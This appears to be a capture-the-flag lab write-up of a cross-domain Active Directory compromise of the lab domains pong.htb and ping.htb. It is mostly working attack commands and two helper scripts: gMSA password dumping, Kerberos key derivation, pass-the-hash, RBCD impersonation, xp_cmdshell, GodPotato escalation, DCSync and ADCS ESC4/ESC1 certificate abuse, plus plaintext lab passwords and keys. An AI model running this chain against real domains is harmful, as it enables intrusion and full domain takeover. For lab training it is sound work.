[Changing a Group's Scope or Type - Win32 apps](https://learn.microsoft.com/en-us/windows/win32/ad/changing-a-groupampaposs-scope-or-type)



<aside>
💡

**Group type values for reference:**

| Value | Type |
| --- | --- |
| `-2147483646` | Global Security (current) |
| `-2147483644` | **Domain Local Security** ← change to this |
| `-2147483640` | Universal Security |
</aside>

first we’ll change the grouptype to Universal

```java
bloodyAD -d pong.htb -u c.roberts -k --host dc2.pong.htb set object 'CN=GMSA MANAGERS,CN=USERS,DC=PONG,DC=HTB' groupType -v -2147483640
```



### Just Testing ;)

<aside>
💡

NOTE: 

if we try to directly change Global → Domain Local it gives below error



</aside>

and now we can change it to Universal → Domain Local group

```java
bloodyAD -d pong.htb -u c.roberts -k --host dc2.pong.htb set object 'CN=GMSA MANAGERS,CN=USERS,DC=PONG,DC=HTB' groupType -v -2147483644
```



and now we can add our user into the group

```java
bloodyAD -d pong.htb -u c.roberts -k --host dc2.pong.htb add groupMember 'CN=GMSA MANAGERS,CN=USERS,DC=PONG,DC=HTB' 'S-1-5-21-750635624-2058721901-1932338391-2617'
```



now we can try to dump the GMSA password using `nxc`

```java
nxc ldap dc2.pong.htb -u 'c.roberts' -p AssumedBreach123 -k -d ping.htb -k --gmsa
```



```java
NTLM: 4b85a2a049588810c1267e4018b07a07
```

if we see on the dc1 pong_gMSA$ is logged in



But to access evil-winrm we need the TGT and we don’t have the user’s password 😟

if we check it requires the aeskey and we are only having the NTLM hash



also while checking the bloodhound data i found the description on Pong_gMSA$ account



[Less is more, PowerShell Just Enough Administration](https://medium.com/@ana_lahuerta/less-is-more-powershell-just-enough-administration-aab9eab61116)

some searching reveals there should be some configuration stored on the machine for JEA

https://learn.microsoft.com/en-us/powershell/scripting/security/remoting/jea/session-configurations?view=powershell-7.6

let’s search for the .pssc on the DC1, we found file under  `C:\ProgramData\JEA\JEA.pssc` 

```java
Get-ChildItem -Path C:\ProgramData -Recurse -Filter *.pssc  -ErrorAction SilentlyContinue
```



Let’s read the file



But now the question is how to get the aeskey, some google search reveals we need the encrypted blob of the msDS-ManagedPassword

> Don’t forgot to Request new TGT, as it wasted my 30-35 minutes 😟
> 

```java
bloodyAD -d pong.htb -u c.roberts -k --host dc2.pong.htb get object 'CN=PONG_GMSA,CN=MANAGED SERVICE ACCOUNTS,DC=PONG,DC=HTB' --attr msDS-ManagedPassword
```



Claude gives us the script that will give us the AES key we needed

```java
#!/usr/bin/env python3
"""
bloodyAD already gives us the NTLM. 
Compute AES keys directly from the NT hash without touching the blob.
"""
from binascii import hexlify, unhexlify
from impacket.krb5 import constants
from impacket.krb5.crypto import string_to_key

SAM    = "PONG_GMSA"
DOMAIN = "pong.htb"

# Take NTLM directly from bloodyAD output — no blob parsing needed
NT_HASH = "4b85a2a049588810c1267e4018b07a07"

# The NT hash IS the MD4 of the UTF-16LE password
# We can't reverse it to get AES keys — we need the raw password bytes.
# BUT bloodyAD gives us B64ENCODED which IS the raw blob — we just need
# to find the CurrentPassword inside it correctly.

import base64, struct

B64 = "eFkbWLHQ9ZrAkNUPkIoyBnuGsnXyZOPO5eNOWWlCXuW+gcHc8jj3TpS1td5uZu2q3PoJBjL68DchzLF7DRcebEPpqm2SigCrJiwtO/C+RMfgVtphZX8BTmckbsUG2dDbiSLW6gj1jMN8Z9oMmpcbSuAshl5uZU2iCIOBdo3rinaX28jwCTKhkaELO+V+CLmoOfRJ2bYjL8V1QzJssh0/RuiaQ+bRLMasy8cLZ24mZhf3/4akKyRSn39X3E+RT7DEc7xHrxBVevTGTsIeD/3OfzMXs5ZW3fc0Iiut/d4heHjhkIfZhsmDQaZmGq4BMi+rG4HY+6gBkNyvHk3rRa9ozQ=="

raw = base64.b64decode(B64)

print(f"[*] Blob length : {len(raw)} bytes")
print(f"[*] Full hex    :\n{raw.hex()}\n")

# The MSDS_MANAGEDPASSWORD_BLOB header is:
# Offset 0 : Version (uint16) = 1
# Offset 2 : Reserved (uint16) = 0  
# Offset 4 : Length (uint32)
# Offset 8 : CurrentPasswordOffset (uint16) = always 16
# Offset 10: PreviousPasswordOffset (uint16)
# Offset 12: QueryPasswordIntervalOffset (uint16)
# Offset 14: UnchangedPasswordIntervalOffset (uint16)
# Offset 16: CurrentPassword starts here

# The blob we have starts with 78 59 -- Version=0x5978=22904, NOT 1
# This means bloodyAD's B64ENCODED is NOT the raw ldap attribute --
# it's already been processed/encrypted differently by bloodyAD.

# Proof: brute-scan the blob for the 240-byte UTF-16LE password
# A 240-byte UTF-16LE string = 120 UTF-16 chars, every other byte often 0x00
from Cryptodome.Hash import MD4

print("[*] Scanning blob for UTF-16LE password block (checking all 16-byte-aligned offsets)...")
found = False
for offset in range(0, len(raw) - 16, 2):
    for pw_len in [240, 256, 224, 208, 192, 176, 160]:
        if offset + pw_len > len(raw):
            continue
        candidate = raw[offset:offset + pw_len]
        h = MD4.new()
        h.update(candidate)
        if h.hexdigest() == NT_HASH:
            print(f"[+] Found password at offset {offset}, length {pw_len} bytes!")
            currentPassword = candidate
            found = True
            break
    if found:
        break

if not found:
    # Try without stripping null terminator
    print("[*] Trying with null terminator included...")
    for offset in range(0, len(raw) - 16, 2):
        for pw_len in [242, 258, 226, 210, 194]:
            if offset + pw_len > len(raw):
                continue
            candidate = raw[offset:offset + pw_len - 2]  # strip last 2
            h = MD4.new()
            h.update(candidate)
            if h.hexdigest() == NT_HASH:
                print(f"[+] Found password at offset {offset}, length {pw_len} (with terminator)")
                currentPassword = candidate
                found = True
                break
        if found:
            break

if not found:
    print("[-] Could not locate password in blob via NTLM verification.")
    print("    The B64ENCODED from bloodyAD may be encrypted/wrapped.")
    print("    Use bloodyAD's --raw flag or extract via a different method.")
    import sys; sys.exit(1)

# Compute AES keys
pw_utf8 = currentPassword.decode('utf-16-le', 'replace').encode('utf-8')
salt    = f'{DOMAIN.upper()}host{SAM.lower()}.{DOMAIN.lower()}'
print(f"[*] Salt : {salt}")

from binascii import hexlify
aes256 = hexlify(string_to_key(
    constants.EncryptionTypes.aes256_cts_hmac_sha1_96.value, pw_utf8, salt).contents).decode()
aes128 = hexlify(string_to_key(
    constants.EncryptionTypes.aes128_cts_hmac_sha1_96.value, pw_utf8, salt).contents).decode()

print()
print('=' * 65)
print(f'NTLM   : {SAM}$:aad3b435b51404eeaad3b435b51404ee:{NT_HASH}')
print(f'AES256 : {SAM}$:aes256-cts-hmac-sha1-96:{aes256}')
print(f'AES128 : {SAM}$:aes128-cts-hmac-sha1-96:{aes128}')
print('=' * 65)
```



let’s get the TGT for the user

```java
impacket-getTGT 'pong.htb'/'Pong_gMSA$' -aesKey 9a3d021763ac0f2ceb3b629eddf92fee758a3ba6fce28269a2d35a3e252e539a -dc-ip 192.168.2.2
```



export it and then connect to WINRM

```java
evil-winrm -i dc1.ping.htb -r ping.htb
```



Possibly the Configuration is not allowing us to do WINRM



now i used claude to create script to interact with JEA environment

```java
#!/usr/bin/env python3
"""
Connect to WinRM with Kerberos auth and a named JEA/PSSession configuration.
Usage: python3 jea_connect.py
"""
import argparse
from pypsrp.client import Client
from pypsrp.powershell import PowerShell, RunspacePool
from pypsrp.wsman import WSMan

parser = argparse.ArgumentParser(description='WinRM + Kerberos + JEA config connector')
parser.add_argument('-t', '--target',        required=True,  help='Target hostname (e.g. dc1.pong.htb)')
parser.add_argument('-u', '--username',      required=False, help='Username (omit for Kerberos ccache)')
parser.add_argument('-H', '--hash',          required=False, help='NT hash for pass-the-hash')
parser.add_argument('-p', '--password',      required=False, help='Password')
parser.add_argument('-k', '--kerberos',      action='store_true', help='Use Kerberos (uses ccache)')
parser.add_argument('-c', '--config',        required=False, default='Microsoft.PowerShell',
                                             help='PSSessionConfiguration name (e.g. restricted, JEA)')
parser.add_argument('--port',                default=5985,   type=int, help='WinRM port (5985 or 5986)')
parser.add_argument('--ssl',                 action='store_true', help='Use HTTPS/SSL')
parser.add_argument('--cmd',                 required=False, help='Single command to run and exit')

args = parser.parse_args()

def build_wsman(args):
    common = dict(
        server        = args.target,
        port          = args.port,
        ssl           = args.ssl,
        connection_timeout = 30,
        read_timeout       = 30,
    )

    if args.kerberos:
        print(f'[*] Auth       : Kerberos (ccache)')
        wsman = WSMan(
            **common,
            auth          = 'kerberos',
            negotiate_send_cbt = False,   # needed for some DCs
        )

    elif args.hash and args.username:
        # Pass-the-hash via NTLM
        print(f'[*] Auth       : NTLM pass-the-hash')
        # pypsrp doesn't do PTH natively — use requests-ntlm2
        try:
            from requests_ntlm2 import HttpNtlmAuth
        except ImportError:
            print('[-] pip install requests-ntlm2 for pass-the-hash support')
            raise
        wsman = WSMan(
            **common,
            auth     = 'ntlm',
            username = args.username,
            password = f'aad3b435b51404eeaad3b435b51404ee:{args.hash}',
        )

    else:
        print(f'[*] Auth       : NTLM password')
        wsman = WSMan(
            **common,
            auth     = 'ntlm',
            username = args.username,
            password = args.password,
        )

    return wsman

def run_interactive(pool):
    """Simple interactive shell loop inside the JEA session."""
    print('[+] Entering interactive session. Type "exit" to quit.\n')
    while True:
        try:
            cmd = input('JEA> ').strip()
        except (EOFError, KeyboardInterrupt):
            print('\n[*] Exiting.')
            break
        if cmd.lower() in ('exit', 'quit'):
            break
        if not cmd:
            continue

        ps = PowerShell(pool)
        ps.add_script(cmd)
        output = ps.invoke()

        for line in output:
            print(line)

        if ps.had_errors:
            for err in ps.streams.error:
                print(f'[!] {err}')

def main():
    print(f'[*] Target     : {args.target}:{args.port}')
    print(f'[*] Config     : {args.config}')

    wsman = build_wsman(args)

    print(f'[*] Opening RunspacePool with configuration "{args.config}"...')
    try:
        with RunspacePool(
            wsman,
            configuration_name = args.config,   # <-- this is the JEA endpoint name
        ) as pool:
            print(f'[+] Connected!\n')

            # Run available commands check first
            ps = PowerShell(pool)
            ps.add_script('Get-Command | Select-Object -ExpandProperty Name')
            cmds = ps.invoke()
            print(f'[*] Available commands in this JEA session:')
            for c in cmds:
                print(f'    {c}')
            print()

            if args.cmd:
                # Single command mode
                ps = PowerShell(pool)
                ps.add_script(args.cmd)
                output = ps.invoke()
                for line in output:
                    print(line)
                if ps.had_errors:
                    for err in ps.streams.error:
                        print(f'[!] {err}')
            else:
                # Interactive mode
                run_interactive(pool)

    except Exception as e:
        print(f'[-] Connection failed: {e}')
        raise

if __name__ == '__main__':
    main()
```



we can now list the commands using `Get-Command *`



i’ve checked multiple articles for JEA bypass but didn’t get anyhing work for me

```java

```

we got following

```java
$cred = New-Object PSCredential('pong\c.carlssen', (ConvertTo-SecureString 'A()DUJ!@414' -AsPlainText -Force))
```

let’s check what we are having as c.carlssen



also we found that the user is member of Remote Management Users group



so let’s try to get User’s TGT and then use it to login to DC2 on PONG.HTB

```java
 impacket-getTGT 'pong.htb'/'c.carlssen':'A()DUJ!@414' -dc-ip 192.168.2.2
```



```java
export KRB5CCNAME=c.carlssen.ccache 
```

and then login using `evil-winrm`

```java
evil-winrm -i dc2.pong.htb -r pong.htb
```



Bingo We got user.txt finally ;)

now let’s start post-enum as we found in the Bloodhound we are having GenericWrite on svc_sql but first we need to check if machine is having MSSQL or not



as we can see the svc_sql is having SQLAdmin permission over DC2



After some research i came across the very interesting article

[A Practical Guide To RBCD Exploitation](https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5)

so first we abuse GenericWrite to configure RBCD



```java
bloodyAD -d pong.htb -u c.carlssen -k --host dc2.pong.htb add rbcd 'svc_sql' 'Pong_gMSA$'
```

now let’s use the above command and configure the RBCD

again if we check the Bloodhound we found another interesting group



and there’s 2 member of that group let’s impersonate the p.reiner

```java
impacket-getST -k -no-pass  -spn 'mssqlsvc/dc2.pong.htb'   -impersonate 'P.Reiner'  -dc-ip 192.168.2.2 'pong.htb/Pong_gMSA$
```





now we can login using mssql

```java
impacket-mssqlclient -k -no-pass Pong.htb/P.Reiner@mssqlsvc_dc2.pong.htb@DC2.pong.htb
```



first thing i try to is enable_xm_cmdshell

```java
enable_xp_cmdshell
```



and bingo we got the command execution, as we are running as service account let’s check if we have `SeImpersonatePrivilege` 



we can see that we are having the `SeImpersonatePrivilege` using winrm shell let’s upload the `GodPotato` and add the c.carlssen into administrators.



now from svc_sql shell let’s run the GodPotato

```java
xp_cmdshell C:\temp\GodPotato-NET4.exe -cmd 'whoami'
```



now let’s add ourselves into Administrators group

```java
xp_cmdshell C:\temp\GodPotato-NET4.exe -cmd "net localgroup Administrators c.carlssen /add"
```



request the new TGT 

```java
impacket-getTGT 'pong.htb'/'c.carlssen':'A()DUJ!@414' -dc-ip 192.168.2.2
```



and then use psexec to get shell

```java
impacket-psexec -k -no-pass pong.htb/c.carlssen@DC2.pong.htb
```



Le’t get the root.txt



LoL no root.txt 😟

as we know our full attack is not completed yet



so now we need to take the user `R.Martinelli`

using DCSync we can get NTLM and AES-KEY of the user

```java
impacket-secretsdump -k -no-pass pong.htb/c.carlssen@DC2.pong.htb -just-dc-user R.Martinelli
```



now let’s get the TGT for the R.Martinelli

```java
impacket-getTGT 'pong.htb'/'R.Martinelli' -aesKey 61e48d17cfe9507a3095dfb84b218a4b803aa0984b123e432bc2a40fc5f7fe98 -dc-ip 192.168.2.2
```



we can see that CA MANAGERS is having GenericWrite, WriteDACL and WriteOwner on SMARTCARDAUTHENTICATION template



i was getting too many errors related to REALMS as we are dealing with cross-domain realms 

moved to another tool i’ve used the bloodyAD to first give genericAll to c.roberts user

```java
bloodyAD --host dc1.ping.htb --dc-ip 10.129.36.102 --dns 10.129.36.102 -d PONG.HTB -u R.Martinelli -p 61e48d17cfe9507a3095dfb84b218a4b803aa0984b123e432bc2a40fc5f7fe98 -f aes -k kdc=192.168.2.2 kdcc=10.129.36.102 realmc=PING.HTB -v INFO add genericAll 'CN=SmartcardAuthentication,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=ping,DC=htb' 'S-1-5-21-750635624-2058721901-1932338391-2617'
```



[ADCSESC4 - SpecterOps](https://bloodhound.specterops.io/resources/edges/adcs-esc4)

[ADCS Attack Series: Abusing ESC4 via Template ACLs for Privilege Escalation](https://medium.com/r3d-buck3t/adcs-attack-series-abusing-esc4-via-template-acls-for-privilege-escalation-98320f0da59a)

now we can use this article to abuse the ADCS-ESC4

after giving C.Roberts GenericAll we can use `find`command again to check what if it reflected or not



and we can see that it is vulnerable to ESC4 now 🙂

following the article now we need to first take backup (No need but i’m taking any case it it not work we can restore it without resetting whole machine)

```java
certipy-ad template -u "c.roberts@ping.htb" -k  -no-pass -dc-host dc1.ping.htb -target dc1.ping.htb -template 'SmartCardAuthentication' -save-configuration ESC4-original 
```





so we can convert the ESC4 → ESC1

```java
certipy-ad template -u "c.roberts@ping.htb" -k  -no-pass -dc-host dc1.ping.htb -target dc1.ping.htb -template 'SmartCardAuthentication' -write-default-configuration
```



let’s check if our changes applied successfully or not so we’ll use the find command again to check

```java
certipy-ad find -u c.roberts -k -no-pass -dc-host dc1.ping.htb
```



let’s abuse the ESC1 now

```java
certipy-ad req -u "c.roberts@ping.htb" -k  -no-pass -dc-host dc1.ping.htb -target dc1.ping.htb -ca 'ping-DC1-CA' -template 'SmartCardAuthentication' -upn administrator@ping.htb
```



let’s first try to get NT hash

```java
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.36.117
```



searching for solution i found 

[NHA Lab Write-Up — From Web to Domain Admin (Twice)](https://medium.com/@Law1755/nha-lab-write-up-from-web-to-domain-admin-twice-f5f34948d185)



we have to add the SID as well of the Administrator user we can get that from bloodhound

```java
S-1-5-21-750635624-2058721901-1932338391-500
```

re-run the command again, but this time with `-sid` 

```java
certipy-ad req -u "c.roberts@ping.htb" -k  -no-pass -dc-host dc1.ping.htb -target dc1.ping.htb -ca 'ping-DC1-CA' -template 'SmartCardAuthentication' -upn administrator@ping.htb -sid 'S-1-5-21-750635624-2058721901-1932338391-500'
```



and now we can try to get NTLM hash using `auth`command

```java
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.36.117
```



but we requires the ccache file to authenticate with winrm

```java
python gettgtpkinit.py PING.HTB/administrator -cert-pfx administrator.pfx -pfx-pass "" administrator.ccache
```



and now loging with winrm

```java
evil-winrm -i dc1.ping.htb -r ping.htb
```

